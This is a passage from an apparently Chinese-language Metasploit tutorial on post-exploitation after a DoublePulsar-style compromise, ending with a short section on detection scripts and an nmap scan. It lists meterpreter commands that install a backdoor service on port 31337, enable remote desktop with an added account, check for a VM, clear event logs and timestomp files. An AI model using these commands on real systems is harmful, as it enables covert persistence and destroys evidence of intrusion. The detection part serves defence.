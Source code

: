      ```
     irb client.core.use("railgun) client.railgun.kernel32.SetThreadExecutionState("ES_CONTINUOUS|ES_SYSTEM_REQUIRED")

     ```

   - background:隐藏在后台方便msf终端进行其他操作，session查看对话id

   - session -i X:使用已经成功获取的对话

6. 植入后门

   - 测试是否虚拟机：

     ```
     run post/windows/gather/checkvm

     ```

   - 以系统服务形式安装：在目标主机的31337端口开启监听，使用metsvc.exe安装metsvc-server.exe服务，运行时加载

     ```
     metsrv.dll
     run metsvc

     ```

   - getgui开启远程桌面：

     ```
     run getgui -u sherlly -p sherlly
     run multi_console_command -rc /root/.msf3/logs/scripts/getgui/clean_up_XXX.rc //清除痕迹，关闭服务，删除添加账号
     ```

7. 清除入侵痕迹

- clearev:清除日志
- timestomp:修改文件的创建时间，最后写入和最后访问时间timestomp xiugai.doc -f old.doc

# **检测&防御**

1. 国外有人写了个检测Doublepulsar入侵的脚本，运行环境需要python2.6, 地址

   countercept/doublepulsar-detection-script**

   ，使用方法

   ```
   python detect_doublepulsar_smb.py --ip XXX.XXX.XXX.XXX
   python detect_doublepulsar_rdp.py --file ips.list --verbose --threads 1

   ```

   另外，nmap也基于该脚本出了对应扫描脚本

   smb-double-pulsar-backdoor.nse**

   ，使用方法

   ```
   nmap -p 445 <target> --script=smb-double-pulsar-backdoor

   ```
